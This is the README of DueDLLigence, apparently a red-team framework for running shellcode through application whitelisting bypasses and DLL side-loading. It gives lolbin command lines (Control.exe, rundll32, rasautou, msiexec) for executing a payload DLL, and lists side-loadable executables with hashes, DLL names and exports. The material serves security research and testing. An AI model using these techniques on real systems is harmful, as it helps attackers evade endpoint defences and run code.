 # DueDLLigence

Shellcode runner framework for application whitelisting bypasses and DLL side-loading. The shellcode included in this project spawns calc.exe.

Authors: Evan Pena (@evan_pena2003), Ruben Boonen (@FuzzySec), Casey Erikson (@EriksocSecurity), Brett Hawkins (@h4wkst3r)

If desired, change the injection type by modifying the following line to the appropriate injection type
<br>```public const ExecutionMethod method = ExecutionMethod.CreateThread;```

Blog Post References:
<br>https://www.fireeye.com/blog/threat-research/2019/10/staying-hidden-on-the-endpoint-evading-detection-with-shellcode.html
<br>https://www.fireeye.com/blog/threat-research/2020/01/abusing-dll-misconfigurations.html

Running the DLL with the following legitimate exes 

## Application Whitelisting Bypasses. Lolbins

### Control.exe
Export: CPlApplet
Syntax: Rename compiled “dll” extension to “cpl” and just double click it!
<br>```Control.exe [cplfile]```
<br>```Rundll32.exe Shell32.dll, Control_RunDLL [cplfile]```

### Rasautou
Export: powershell
<br>```rasautou –d {dllpayload} –p powershell –a a –e e```

### Msiexec
Export: DllUnregisterServer
<br>```msiexec /z {full path to msiexec.dll}```

## DLL Side-Loading Binaries and Details
### Tortoise SVN (SubWCRev.exe)
Executable: SubWCRev.exe
<br>File Path: C:\Program Files\Tortoise SVN\bin
<br>MD5 Hash: c422a95929dd627b4c2be52226287003
<br>DLL == "crshhndl.dll"; Arch == x64; OS == Win7 & 10;
<br>Exports: InitCrashHandler,SendReport,IsReadyToExit,SetCustomInfo,AddUserInfoToReport,RemoveUserInfoFromReport,AddFileToReport,RemoveFileFromReport,GetVersionFromApp,GetVersionFromFile

### Dism Image Servicing Utility (Dism.exe)
Executable: Dism.exe
<br>File Path: C:\Windows\System32
<br>MD5 Hash: 5e70ab0bf74bba785b83da53a3056a21
<br>DLL == "DismCore.dll"; Arch == x64; OS == Win7 & 10;
<br>Export: DllGetClassObject

### PotPlayerMini
Executable: PotPlayer.exe
<br>File Path: {Installation Directory}
<br>MD5 Hash: f16903b2ff82689404f7d0820f461e5d
<br>DLL == "PotPlayer.dll"; Arch == x86;
<br>Exports: PreprocessCmdLineExW,UninitPotPlayer,CreatePotPlayerExW,DestroyPotPlayer,SetPotPlayRegKeyW,RunPotPlayer

Credit for the DueDLLigence name goes to Paul Sanders (@saul_panders)

